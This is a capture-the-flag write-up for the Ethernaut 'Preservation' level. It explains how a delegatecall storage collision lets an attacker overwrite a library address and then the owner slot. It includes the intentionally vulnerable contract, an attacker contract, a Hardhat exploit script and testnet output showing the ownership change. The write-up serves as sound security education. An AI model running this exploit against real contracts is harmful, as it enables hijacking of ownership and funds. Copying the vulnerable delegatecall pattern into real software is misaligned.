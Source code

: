 ```yaml
---
title: Ethernaut #16 Preservation
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Preservation challenge writeup
---
```


## Preservation

### Challenge

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
* Understanding what it means for `delegatecall` to be context-preserving.
* Understanding how storage variables are stored and accessed.
* Understanding how casting works between different data types.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

### Background

In order to pass this challenge we need to understand that when we `delegatecall` a to some smart contract, the code is executing in the context of the current contract. So when the first slot is being overwritten, it is the first slot in the caller contract and not the callee contract.

### Attack

The `setFirstTime` and `setSecondTime` functions are not used safly here. In fact they are implemented completly wrong and will not function as intended. Normaly when any of the two is called, they will try to update the `storedTime` in there own contract which happens to be in the first slot in storage. However, since they are being `delegatecall`ed, they will actually run in the context of the caller, and hence overwrite the parents first slot in storage. This will result in updating the `timeZone1Library` address. Using this techinque we can make the address point to an attacker controlled contract.

Create a contract that implements a function with the same signature as the `setTime` function, more specifically the signature should be `setTime(uint256)`. This function should have the functionality to replace the third slot with whatever owner we want to set. Then we need to use the original `setTime` function to replace the first slot, which is in fact the address of the contract that is being called.

* Create a contract that:
  * will have a function with the signature `setTime(uint256)`
  * the function `setTime(uint256)` will replace replace the third slot with whatever the argument passed is 
* Call the `setFirstTime` or `setSecondTime` with the address of the attacker controlled contract
* Call the `setFirstTime` with the address of the new owner to be set

#### PreservationSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

contract PreservationSolve {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    constructor() public {}

    function setTime(uint256 _owner) public {
        owner = address(_owner);
    }
}
```

#### preservation-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    preservationAddress = "0x06f5b34b422ee5E774b91C5908f0f60E080C4DFb";
    contract = await ethers.getContractAt("Preservation", preservationAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    PreservationSolve = await ethers.getContractFactory("PreservationSolve");
    preservationSolve = await PreservationSolve.deploy();
    await preservationSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())

    // call setFirstTime and overwrite the first slot in the caller contract
    tx = await contract.connect(account).setFirstTime(preservationSolve.address)
    receipt = await tx.wait()

    // call setFirstTime and overwrite the owner slot in the caller contract
    tx = await contract.connect(account).setFirstTime(account.address)
    receipt = await tx.wait()

    console.log("Contract Owner  : " + await contract.owner())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/preservation-solve.js --network rinkeby
Level address   : 0x06f5b34b422ee5E774b91C5908f0f60E080C4DFb
Contract Owner  : 0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Next time, those friends will request an audit before depositing any money on a contract. Congrats!

Frequently, using proxy contracts is highly recommended to bring upgradeability features and reduce the deployment's gas cost. However, developers must be careful not to introduce storage collisions, as seen in this level.

Furthermore, iterating over operations that consume ETH can lead to issues if it is not handled correctly. Even if ETH is spent, `msg.value` will remain the same, so the developer must manually keep track of the actual remaining amount on each iteration. This can also lead to issues when using a multi-call pattern, as performing multiple `delegatecall`s to a function that looks safe on its own could lead to unwanted transfers of ETH, as `delegatecall`s keep the original `msg.value` sent to the contract.

Move on to the next level when you're ready!

